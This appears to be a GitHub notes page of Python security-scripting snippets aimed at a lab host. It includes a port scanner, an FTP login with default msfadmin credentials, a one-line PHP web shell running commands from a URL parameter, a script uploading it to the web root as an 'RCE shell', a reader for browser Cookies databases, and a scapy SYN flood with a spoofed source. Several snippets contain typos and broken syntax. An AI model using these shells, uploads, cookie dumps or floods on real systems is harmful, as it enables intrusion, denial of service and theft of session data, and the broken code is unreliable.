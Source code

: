 ##### libraries
- **os**
```
import os
os.uname()
```

- **suprocess**
```
import subprocess

subprocess.run(['uname', '-v'])

info=subprocess.run(['uname', '-ors'],capture_output=True)
print(info.stdout.decode('utf-8'))
```

- **socket**
```
import socket
socket.setdefaulttimeout(1)

s=socket.socket()
s.connect_ex(("10.0.2.32",21))
banner=s.recv(1024)
s.close()
print(banner.decode('utf-8'))
```

- **sys**
```
import sys, socket
socket.setdefaulttimeout(1)

try:
	for i in range (1, 1024):
		s=socket.socket()
		if s.connect_ex((sys.argv[1],i))==0:
			print(sys.argv[1]+":"+str(i)+" open")
		s.close()
except:
	pass
print("\nDone")
```

- **urllib**
```
import urllib.request
url=urllib.request.urlopen('http://10.0.2.32/index.php')
print(url.read().decode('utf-8'))
```

- **ftplib**
```shelly.php
import ftplib

ftp=ftplib.FTP('10.0.2.32)
ftp.login('msfadmin', 'msfadmin')
ftp.cwd('/var/www')
ftp.dir()
```

shelly.php
```
<? php echo shell_exec($_GET['cmd']); ?>
```

```
import ftplib

ftp=ftplib.FTP('10.0.2.32)
ftp.login('msfadmin', 'msfadmin')
ftp.cwd('/var/www/dav')

f=open('shelly.php', 'rb')
ftp.storlines('STOR shelly.php')
f.close()
ftp.close()
print("RCE shell uploaded")
```

- **sqlite3**
```
import sqlite3

cs=sqlite3.connect('Cookies')
c=cs.cursor()
c.execute('SELECT name FROM sqlite_master WHERE type==\"table\";')
for row in c:
	print(row[0])
////////////////////////////////////
c.execute('SELECT * FROM cookies;')
for row in c.description:
	print(row[0])
////////////////////////////////////
c.execute('SELECT host_key,name FROM cookies;')
for row in c:
	print(row[0].ljust(24)+' '+row[1])
```

- **scapy** (for SYN floods)
```
import scpay.all import *

def flood(src,tgt):
	for port in range(1024,65536)
		send(IP(src=src,dst=tgt)/TCP(sport=4444,dport=port,flags="S"))
source="10.0.2.100"
target="10.0.2.32"
flood(source,target)
```


### Steps to create a HTTP server

```
# Create index.html
$> vim index.html
# html code of the webpage
# Create server with python 
$> python -m http.server 8081
# Enter URL "localhost:8081" in your browser
```

- A basic HTTP server will be started on your local machine, accessible by anyone (within the same network or from the local computer) at `http://localhost:8081`.
- The server will serve files from the directory in which the command was run. If you navigate to this URL, you will see the files in the current directory as a list, which can be opened in a browser.
- This server is **not intended for production use**. It's often used for development purposes or testing, such as sharing files within a local network.